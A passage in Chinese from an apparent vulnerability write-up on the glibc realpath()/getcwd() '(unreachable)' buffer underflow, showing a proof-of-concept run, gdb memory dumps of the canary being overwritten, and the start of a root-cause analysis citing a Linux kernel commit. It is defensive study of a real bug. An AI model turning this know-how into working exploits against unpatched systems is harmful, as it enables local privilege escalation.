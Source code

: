 ```text
# gcc -g poc.c
# ./a.out
Vulnerable
```

执行 `realpath()` 前：

```text
gdb-peda$ x/g buf.canary
0x7fffffffe4d0: 0x000000000000002f
gdb-peda$ x/15gx 0x7fffffffe4d0
0x7fffffffe4d0: 0x000000000000002f 0x00000000000000c2   <-- canary
0x7fffffffe4e0: 0x3030303030303030 0x3030303030303030   <-- buffer
0x7fffffffe4f0: 0x3030303030303030 0x3030303030303030
0x7fffffffe500: 0x3030303030303030 0x3030303030303030
0x7fffffffe510: 0x3030303030303030 0x3030303030303030
0x7fffffffe520: 0x3030303030303030 0x3030303030303030
0x7fffffffe530: 0x00007fffffffe620 0x13ca8a6b7215a800
0x7fffffffe540: 0x0000000000000000
```

执行 `realpath()` 后：

```text
gdb-peda$ x/15gx 0x7fffffffe4d0
0x7fffffffe4d0: 0x000000424242422f 0x00000000000000c2   <-- canary
0x7fffffffe4e0: 0x68636165726e7528 0x6f682f29656c6261   <-- buffer
0x7fffffffe4f0: 0x746e7562752f656d 0x6f64666c61682f75
0x7fffffffe500: 0x3030303030300067 0x3030303030303030
0x7fffffffe510: 0x3030303030303030 0x3030303030303030
0x7fffffffe520: 0x3030303030303030 0x3030303030303030
0x7fffffffe530: 0x00007fffffffe620 0x13ca8a6b7215a800
0x7fffffffe540: 0x0000000000000000
gdb-peda$ x/s 0x7fffffffe4d0
0x7fffffffe4d0:  "/BBBB"
gdb-peda$ x/s 0x7fffffffe4e0
0x7fffffffe4e0:  "(unreachable)/home/ubuntu/halfdog"
```

正常情况下，字符串 `\BBBB` 应该只能在 buffer 范围内进程操作，而这里它被复制到了 canary 里，也就是发生了下溢出。

## 漏洞分析

`getcwd()` 的原型如下：

```c
#include <unistd.h>

char *getcwd(char *buf, size_t size);
```

它用于得到一个以 null 结尾的字符串，内容是当前进程的当前工作目录的绝对路径。并以保存到参数 buf 中的形式返回。

首先从 Linux 内核方面来看，在 2.6.36 版本的 [vfs: show unreachable paths in getcwd and proc](https://github.com/torvalds/linux/commit/8df9d1a4142311c084ffeeacb67cd34d190eff74) 这次提交，使得当目录不可到达时，会在返回的目录字符串前面加上 `(unreachable)`：
